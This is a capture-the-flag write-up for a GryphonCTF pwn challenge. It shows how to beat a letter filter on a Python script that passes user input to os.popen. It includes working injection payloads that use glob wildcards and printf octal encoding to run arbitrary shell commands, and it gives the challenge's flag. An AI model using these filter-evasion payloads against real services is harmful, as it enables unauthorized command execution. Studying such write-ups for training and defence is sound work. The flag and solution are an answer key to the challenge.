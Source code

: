 # Bashing your spirit foods
Testing on bash injection knowledge

<i>Creator - @Platy</i>

## Category
Pwn 150

## Question
>You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.
>
>`nc pwn1.chal.gryphonctf.com 17345`

### Hint
`I hate needles`

## Setup Guide
Do `sudo bash build.sh`

## Solutions
### Intended Solution
This challenge tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? ./*`, we manage to view all the files in the current directory. This reveals the python script and shows what it is actually doing

```python
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `solution.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

We find a file called `f14g` which when cat, does not show us a flag, but a clue to where the next flag is. Do `ls -l -d -1 /*/* | grep flag` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;)) | $(n $(n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;))
```

We can see this file called `/bin/thisisareallylongflagbutifyoucansomehowcatthisitwouldbeamazing` by doing `cat /bin/*flag*`

```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" ; f "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;))
```

Cat the file and you can see assembler code

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x00000000000006b0 <+0>:	push   rbp
   0x00000000000006b1 <+1>:	mov    rbp,rsp
   0x00000000000006b4 <+4>:	push   0x7d
   0x00000000000006b6 <+6>:	push   0x68
   0x00000000000006b8 <+8>:	push   0x37
   0x00000000000006ba <+10>:	push   0x6c
   0x00000000000006bc <+12>:	push   0x34
   0x00000000000006be <+14>:	push   0x33
   0x00000000000006c0 <+16>:	push   0x68
   0x00000000000006c2 <+18>:	push   0x5f
   0x00000000000006c4 <+20>:	push   0x72
   0x00000000000006c6 <+22>:	push   0x30
   0x00000000000006c8 <+24>:	push   0x66
   0x00000000000006ca <+26>:	push   0x5f
   0x00000000000006cc <+28>:	push   0x64
   0x00000000000006ce <+30>:	push   0x34
   0x00000000000006d0 <+32>:	push   0x62
   0x00000000000006d2 <+34>:	push   0x5f
   0x00000000000006d4 <+36>:	push   0x35
   0x00000000000006d6 <+38>:	push   0x31
   0x00000000000006d8 <+40>:	push   0x5f
   0x00000000000006da <+42>:	push   0x36
   0x00000000000006dc <+44>:	push   0x6e
   0x00000000000006de <+46>:	push   0x31
   0x00000000000006e0 <+48>:	push   0x68
   0x00000000000006e2 <+50>:	push   0x35
   0x00000000000006e4 <+52>:	push   0x34
   0x00000000000006e6 <+54>:	push   0x62
   0x00000000000006e8 <+56>:	mov    r9d,0x7b
   0x00000000000006ee <+62>:	mov    r8d,0x46
   0x00000000000006f4 <+68>:	mov    ecx,0x54
   0x00000000000006f9 <+73>:	mov    edx,0x43
   0x00000000000006fe <+78>:	mov    esi,0x47
   0x0000000000000703 <+83>:	lea    rdi,[rip+0xae]        # 0x7b8
   0x000000000000070a <+90>:	mov    eax,0x0
   0x000000000000070f <+95>:	call   0x560 <printf@plt>
   0x0000000000000714 <+100>:	add    rsp,0xd0
   0x000000000000071b <+107>:	mov    eax,0x0
   0x0000000000000720 <+112>:	leave
   0x0000000000000721 <+113>:	ret
End of assembler dump.
```

As we can see, a lot of values are being pushed into the stack. And at the end, it calls the `printf` function.

We can store all the items in the stack and decode it into ascii using a small python script

```python
values = [0x47,0x43,0x54,0x46,0x7b,0x62,0x34,0x35,0x68,0x31,0x6e,0x36,0x5f,0x62,0x34,0x64,0x5f,0x66,0x30,0x72,0x5f,0x68,0x33,0x34,0x6c,0x37,0x68,0x7d]
for i in values:
	print(chr(i),end='')
print()
```

### Shortcut Solution
This information was shared by `Team Scapegoat`

Using bash injection, you can do `/??n/??? ./*` to view all files in the directory

You are given the hint that the flag is in the system

Trying out every single system directory, you can find that it is located in 

Doing `/*/??n/f?n? /??n/*f*`, you can find where the flag is.

Finally, you can do `/??n/??? /*n*f*n*` and get the disassembly code

Reverse it and get the flag

REALLY REALLY SALTY

### Flag
`GCTF{b45h1n6_15_b4d_f0r_h34l7h}`

## Distribution
No files to be distributed

## Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts
